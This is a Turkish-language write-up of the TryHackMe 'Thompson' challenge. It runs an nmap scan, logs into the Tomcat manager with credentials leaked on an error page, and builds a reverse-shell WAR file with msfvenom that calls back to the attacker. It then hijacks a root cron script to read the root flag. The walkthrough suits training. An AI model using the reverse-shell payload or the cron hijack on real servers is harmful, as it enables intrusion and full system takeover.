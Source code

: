 ```yaml
---
title: 'TryHackMe | Thompson WriteUp'
author: appdone
categories: [TryHackMe Challenges]
render_with_liquid: false
media_subpath: /images/tryhackme_thompson/
image:
  path: logo.webp
---
```


Bu yazımda, TryHackMe platformunda yer alan “Thompson” isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sC -sV -T4 10.10.84.205
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 (SSH), 8009 (Apache Jserv) ve 8080 (Apache Tomcat) olmak üzere üç portun açık olduğunu öğreniyoruz. 8080 numaralı HTTP servisini açtıktan sonra “manager app” butonuna tıkladım ve kullanıcı bilgilerini girebilmemiz için bir pop-up açıldı. Burada iptal butonuna tıkladığımızda aşağıdaki hata sayfası ile karşılaşıyoruz. Burada bir kullanıcı adı ve parola bulunuyor.

![](1.webp){: width="900" height="500" }

Bu kullanıcı bilgilerini kullanarak sisteme giriş yapabiliyoruz. Sayfayı biraz aşağıya kaydırdığımızda .war dosyalarını yükleyebileceğimiz bir form ile karşılaşıyoruz.

![](2.webp){: width="1200" height="600" }

Msfvenom ile reverse shell alabileceğim bir .war dosyası oluşturalım.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=1234 -f war > shell.war
```

Dosyayı oluşturduktan sonra yükleyelim.

![](3.webp){: width="1000" height="600" }

Yükledikten sonra uygulamalar listesinde oluşturduğumuz dosyanın adını göreceğiz. Ona tıklamadan önce belirttiğimiz port’u dinlemeye alalım.

Sisteme girdikten sonra /home/jack dizini altından herhangi bir kısıtlama olmadan ilk bayrağı alabiliyoruz. Aynı dizin içerisinde id.sh ve test.txt adında iki dosya bulunuyor. /etc/crontab dosyasını kontrol ettiğimizde ise id.sh dosyasını 1 dk ara ile sürekli çalıştırdığını görüyoruz.

```console
(Meterpreter 1)(/) > cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
```

id.sh dosyanın içeriğini değiştirebiliyoruz. İçerisine /root/root.txt dosyasındaki bayrağı alabilmek için bir komut girdim ve beklemeye başladım. Bir süre sonra dosyayı çalıştırdı ve belirttiğim test.txt dosyasına bayrağı yazdırdı.

```console
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat test.txt
d89d539***3ae7ca3a
```

Bunun yerine reverse shell alabileceğimiz bir komut girip dinlediğimiz bir port üzerinden shell alabiliriz. Değişiklik olması amacıyla biraz daha kolay yoldan gittim.
